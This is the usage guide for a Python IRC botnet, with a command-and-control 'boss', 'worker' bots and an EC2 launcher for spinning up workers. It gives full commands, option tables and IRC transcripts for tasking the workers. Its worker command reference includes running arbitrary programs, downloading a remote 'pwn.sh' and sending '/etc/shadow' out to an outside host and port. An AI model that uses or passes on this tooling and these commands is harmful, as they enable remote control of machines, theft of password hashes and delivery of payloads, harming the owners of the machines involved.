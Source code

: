 .. _botnet:

BotNet Help
===========

Quick overview
--------------

The botnet is composed of two components, the boss and any number of workers.
The first step when using the botnet is to start up the boss.

Here is an example::

    python boss.py -c secretbotz -n daboss1 -x qwerty

This will start the boss using "#secretbotz" as the command channel.
The boss will be identified by the nickname "daboss1".  To auth with the boss
you will send it the message ``!auth qwerty``.  The default host is
irc.freenode.net and the default port is 6667, so it will use thoes values.  You
should be able to join #secretbotz using your IRC client and see "daboss1" just
chilling out::

    <cleifer> !auth qwerty
    <daboss1> Success

Next, start up any number of workers.  The workers will need to know the nick
of the command bot so they can register themselves and start accepting tasks::

    python worker.py -b daboss1

Now you should be able to ask daboss1 for some status and see that your worker
has been registered::

    <cleifer> !status
    <daboss1> 1 workers available
    <daboss1> 0 tasks have been scheduled

Let's execute a program on the worker machine::

    <cleifer> !execute run vmstat
    <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
    <daboss1> Task 1 completed by 1 workers

What was the output of the command?

::

    cleifer> !print
    <daboss1> [w0rk3r:{alpha}] - run vmstat
    <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
    <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
    <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


The Boss
--------

The Boss is responsible for coordinating a given number of
worker bots.  The Boss is given a channel and a secret password,
when you join that channel and authenticate with the boss, you will
be able to issue commands to the workers::

    <you>  /join #secret-channel
    <you>  !auth my-password
    <boss> Success


Starting the Boss
^^^^^^^^^^^^^^^^^

``python boss.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      nickname to use for boss     -n boss1337
-x      secret used to auth          -x sshhh!
-c      c&c channel                  -c #secret-channel
-f      logfile                      -f /var/log/boss.log
-v      verbosity of logging (0 - 2) -v 1
======  ============================ ====================


The Worker
----------

The Worker is responsible for executing tasks you send to the boss.  The worker
communicates solely with the boss, executing tasks on the local machine and reporting
its results back when finished.  Behind-the-scenes the worker initialization looks
like this:

1. message the boss and ask to register (tries every 30s)
2. upon receiving confirmation, join the C&C channel with the other workers
3. work on tasks issued by the boss via the C&C channel, and report back results


Starting the worker
^^^^^^^^^^^^^^^^^^^

``python worker.py [options]``

======  ============================ ====================
switch  meaning                      example
======  ============================ ====================
-s      server to connect to         -s irc.freenode.net
-p      port to connect on           -p 6667
-n      base nickname for worker     -n worker
-b      nickname of boss *important* -b daboss1
-f      logfile for output           -f /var/log/worker.log
-v      verbosity of output 0 -2     -v 1
======  ============================ ====================


Launching a number of workers using EC2
---------------------------------------

The BotNet comes with a launcher to make it easy to spin up an arbitrary number
of workers using amazon's EC2.  This launcher requires [boto](https://github.com/boto/boto),
the python/aws library.

Example usage::

    # launch 10 workers pointing them at "daboss1"
    python launcher.py --workers=10 --boss=daboss1
    
    # show me the status of my workers
    python launcher.py show
    
    # terminate my workers, I'm done
    python launcher.py terminate


Running the launcher
^^^^^^^^^^^^^^^^^^^^

The launcher takes a number of options, which instruct it which AMI to use, what
size instances to create, number of workers to spawn, etc.  It also takes all the
same parameters the worker takes, and passes those along to the workers it spawns.

===============  ============================   ====================
switch           meaning                        example
===============  ============================   ====================
--workers        number of workers to spawn     --workers=5
--quiet          no output                      --quiet
--script         custom bootstrap script        --script=my-custom-script.sh
--ami            AMI id to use                  --ami=ami-ab36fbc2
--key            AWS access key                 --key=foo
--secret         AWS secret access key          --secret=bar
--type           Instance size                  --type=t1.micro
--key-name       Security pair key name         --key-name=master-key
--group          Security group for instances   --group=default
===============  ============================   ====================


The following switches will be passed on to the workers launched by the launcher:

======  ============================   ====================
switch  meaning                        example
======  ============================   ====================
-s      server to connect to           -s irc.freenode.net
-p      port to connect on             -p 6667
-n      base nickname for worker       -n worker
-b      nickname of boss *important*   -b daboss1
-f      logfile for output             -f /var/log/worker.log
-v      verbosity of output 0 - 2      -v 1
======  ============================   ====================


Issuing commands to the BotNet
------------------------------

The BotNet comes with a number of commands pre-programmed.  Here are the steps for
running commands on your botnet, assuming you started our boss and worker in the following
manner::

    python boss.py -c secretbotz -n daboss1 -x qwerty
    python worker.py -b daboss1

1. Join the channel that you started the boss in and authenticate::

       <you>     /join #secretbotz
       <you>     !auth qwerty
       <daboss1> Success

2. Ask for status::

       <you>     !status
       <daboss1> 1 workers available
       <daboss1> 0 tasks have been scheduled

3. Run a command::

       <you>     !execute run vmstat
       <daboss1> Scheduled task: "run vmstat" with id 1 [1 workers]
       <daboss1> Task 1 completed by 1 workers

4. View result returned by worker::

       <you>     !print
       <daboss1> [w0rk3r:{alpha}] - run vmstat
       <daboss1> procs -----------memory---------- ---swap-- -----io---- -system-- ----cpu----
       <daboss1> r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa
       <daboss1> 0  0      0 977784 504004 910144    0    0    46    29  103  443  3  1 96  0


Command reference
-----------------

==================================  ========================================================
Command                              Meaning
==================================  ========================================================
!auth <password>                     authenticate with the boss
!execute (num workers) <command>     execute the given command (optional, number of workers)
!print (task id)                     print output of tasks or task with id
!stop                                tell workers to stop their current task
!status                              get status on workers and tasks
!uptime                              boss uptime
!help                                display list of commands
==================================  ========================================================


Commands you can execute on workers
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following commands are available to workers using ``!execute``:

            
``run <program>``
    Run the given program on the worker's host.
    
    Example: ``!execute run vmstat``

``info``
    Get info about the host the worker is running on
    
    Example: ``!execute info``

``download <url>``
    Retrieve a remote file and store it in the working directory
    
    Example: ``!execute download http://my-awesome-script.com/pwn.sh``

``send_file <filename> <destination>``
    Send file at <filename> to given destination (host:port) -- this transers
    the raw data.
    
    Example: ``!execute send_file /etc/shadow some.fileserver.com:9001``

``ports``
    View what ports are open on the workers host
    
    Example: ``!execute ports``

``status``
    Return the workers queue size
    
    Example: ``!execute status``

``get_time <format>``
    Return the localtime from the workers host
    
    Example: ``!execute get_time``
